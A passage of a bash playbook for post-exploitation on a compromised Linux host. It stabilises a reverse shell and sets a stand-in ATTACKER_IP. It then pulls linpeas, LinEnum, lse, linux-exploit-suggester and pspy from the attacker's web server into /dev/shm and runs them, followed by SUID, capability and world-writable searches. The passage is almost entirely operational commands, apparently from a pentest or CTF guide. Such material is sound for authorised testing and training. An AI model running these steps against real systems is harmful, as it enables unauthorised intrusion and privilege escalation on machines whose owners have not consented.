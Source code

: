 ```bash
curl -LO https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

# pspy (process monitor) — if this direct link fails, get the latest “pspy64” from the repo releases
curl -LO https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64

# 2) Start a simple web server to serve the files
python3 -m http.server 8000
# Note your attacker IP (A): ip a | grep -Eo 'inet [0-9.]+'
```

Target: stabilize and enumerate
```bash
# 0) Stabilize shell (if needed); some steps may vary by TTY
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z to background, then on your local: stty raw -echo; fg; reset

# 1) Basic context
whoami; id; hostname; uname -a
cat /etc/os-release 2>/dev/null || lsb_release -a 2>/dev/null
echo "PATH=$PATH"
sudo -l 2>/dev/null

# 2) Choose ephemeral working dir
cd /dev/shm 2>/dev/null || cd /tmp || cd /var/tmp

# 3) Set attacker IP variable (edit this)
export A=ATTACKER_IP

# 4) Fetch tools (use curl or wget depending on availability)
curl -O http://$A:8000/linpeas.sh     2>/dev/null || wget http://$A:8000/linpeas.sh
curl -O http://$A:8000/LinEnum.sh     2>/dev/null || wget http://$A:8000/LinEnum.sh
curl -O http://$A:8000/lse.sh         2>/dev/null || wget http://$A:8000/lse.sh
curl -O http://$A:8000/linux-exploit-suggester.sh 2>/dev/null || wget http://$A:8000/linux-exploit-suggester.sh
curl -O http://$A:8000/pspy64         2>/dev/null || wget http://$A:8000/pspy64

chmod +x linpeas.sh LinEnum.sh lse.sh linux-exploit-suggester.sh pspy64 2>/dev/null

# 5) Run linpeas first and save the output for offline triage
./linpeas.sh | tee linpeas.out

# 6) Optionally run other enumerators
./LinEnum.sh | tee linenum.out
./lse.sh | tee lse.out
./linux-exploit-suggester.sh | tee les.out

# 7) Monitor processes/cron to catch root tasks (let it run for a few minutes)
./pspy64 | tee pspy.out

# 8) Targeted manual checks (fallbacks/augment)
# SUID/SGID binaries
find / -perm -4000 -type f 2>/dev/null | sort | tee suid.out
find / -perm -2000 -type f 2>/dev/null | sort | tee sgid.out

# File capabilities
command -v getcap >/dev/null 2>&1 && getcap -r / 2>/dev/null | tee caps.out

# World-writable directories (exclude kernel pseudo-fs)
find / -type d -writable 2>/dev/null | grep -vE '^/(proc|sys|dev)($|/)' | tee ww_dirs.out

# Cron/systemd timers (some may need root but try)
```